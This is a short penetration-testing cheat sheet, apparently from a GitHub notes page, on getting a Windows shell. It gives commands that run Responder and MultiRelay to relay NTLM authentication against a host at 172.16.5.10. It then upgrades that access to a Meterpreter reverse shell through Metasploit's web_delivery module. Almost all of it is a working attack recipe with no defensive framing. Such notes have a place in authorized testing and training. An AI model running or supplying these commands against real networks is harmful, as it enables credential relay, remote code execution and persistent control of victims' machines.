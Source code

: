 # Establish Windows Shell
```bash
# Establish MultiRelay shell
./MultiRelay.py -t 172.16.5.10 -u ALL
# If responder is running before MultiRelay, responder will listen on ports 80 and 443 and prevent MultiRelay from running.
responder -I eth1 --lm

# Upgrade MultiRelay Shell to Meterpreter Shell
msfconsole
use exploit/multi/script/web_delivery
set LHOST <IP Address or Interface>

show targets
set TARGET 3
set PAYLOAD windows/meterpreter/reverse_tcp
run

# Copy the returned command into the MultiRelay shell
```

# References
[Github](https://github.com/lgandx/Responder-Windows)